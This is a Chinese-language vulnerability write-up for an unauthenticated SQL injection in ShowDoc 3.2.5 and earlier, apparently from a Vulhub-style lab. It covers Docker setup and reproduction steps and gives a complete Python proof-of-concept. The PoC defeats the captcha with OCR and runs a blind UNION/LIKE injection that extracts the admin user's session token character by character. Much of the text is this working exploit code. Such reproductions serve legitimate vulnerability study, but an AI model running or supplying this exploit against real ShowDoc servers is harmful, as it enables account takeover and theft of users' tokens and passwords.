# ShowDoc 3.2.5 SQL 注入漏洞

## 漏洞描述

ShowDoc 是一个开源的在线共享文档工具。

ShowDoc <= 3.2.5 存在一处未授权 SQL 注入漏洞，攻击者可以利用该漏洞窃取保存在 SQLite 数据库中的用户密码和 Token。

参考链接：

- https://github.com/star7th/showdoc/commit/84fc28d07c5dfc894f5fbc6e8c42efd13c976fda

## 漏洞影响

```
ShowDoc <= 3.2.5
```

## 环境搭建

Vulhub 执行如下命令启动一个 ShowDoc 2.8.2 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可查看到 ShowDoc 的主页。初始化成功后，使用帐号 `showdoc` 和密码 `123456` 登录用户界面。

![](images/ShowDoc%203.2.5%20SQL注入漏洞/image-20240704153244765.png)

## 漏洞复现

当一个用户登录进 ShowDoc，其用户 token 将会被保存在 SQLite 数据库中。相比于获取 hash 后的用户密码，用户 token 是一个更好地选择。

在利用该漏洞前，需要安装验证码识别库 [ddddocr](https://github.com/sml2h3/ddddocr)，因为该漏洞需要每次请求前传入验证码：

```
pip install onnxruntime ddddocr requests
```

然后，执行 [这个POC](https://github.com/vulhub/vulhub/blob/master/showdoc/3.2.5-sqli/poc.py) 来获取 token：

```
python poc.py -u http://your-ip:8080
```

![](images/ShowDoc%203.2.5%20SQL注入漏洞/image-20240704155207997.png)

测试获取的 token 是否合法。

未加 token：

![](images/ShowDoc%203.2.5%20SQL注入漏洞/image-20240704161609189.png)

添加 token：

```
Cookie: cookie_token=38f70784c511fe30f8686d5bf44bd0c5a830acd8e8c3efa9db63938f69e11f40
```

![](images/ShowDoc%203.2.5%20SQL注入漏洞/image-20240704161636254.png)

## 漏洞 POC

poc.py

```python
import argparse
import ddddocr
import requests
import onnxruntime
from urllib.parse import urljoin


onnxruntime.set_default_logger_severity(3)
table = '0123456789abcdef'
proxies = {'http': 'http://127.0.0.1:8085'}
ocr = ddddocr.DdddOcr()
ocr.set_ranges(table)


class RetryException(Exception):
    pass


def retry_when_failed(func):
    def retry_func(*args, **kwargs):
        while True:
            try:
                return func(*args, **kwargs)
            except RetryException:
                continue
            except Exception as e:
                raise e

    return retry_func


def generate_captcha(base: str):
    data = requests.get(f"{base}?s=/api/common/createCaptcha").json()
    captcha_id = data['data']['captcha_id']

    response = requests.get(f'{base}?s=/api/common/showCaptcha&captcha_id={captcha_id}')
    data = response.content
    result = ocr.classification(data)
    return captcha_id, result


@retry_when_failed
def exploit_one(base: str, current: str, ch: str) -> str:
    captcha_id, captcha_text = generate_captcha(base)
    data = requests.get(base, params={
        's': '/api/item/pwd',
        'page_id': '0',
        'password': '1',
        'captcha_id': captcha_id,
        'captcha': captcha_text,
        'item_id': f"aa') UNION SELECT 1,1,1,1,1,(SELECT 1 FROM user_token WHERE uid = 1 AND token LIKE '{current}{ch}%' LIMIT 1),1,1,1,1,1,1 FROM user_token; -- "
    }).json()

    if data['error_code'] == 0:
        return ch
    elif data['error_code'] == 10010:
        return ''
    elif data['error_code'] == 10206:
        raise RetryException()
    else:
        print(f'error: {data!r}')
        raise Exception('unknown exception')


def main():
    parser = argparse.ArgumentParser(description='Showdoc 3.2.5 SQL injection')
    parser.add_argument('-u', '--url', type=str, required=True)

    args = parser.parse_args()
    target = urljoin(args.url, '/server/index.php')
    res = ''
    for i in range(64):
        r = ''
        for ch in list(table):
            r = exploit_one(target, res, ch)
            if r:
                res += ch
                break

        print(f'Current result: {res}')
        if not r:
            break


if __name__ == '__main__':
    main()
```

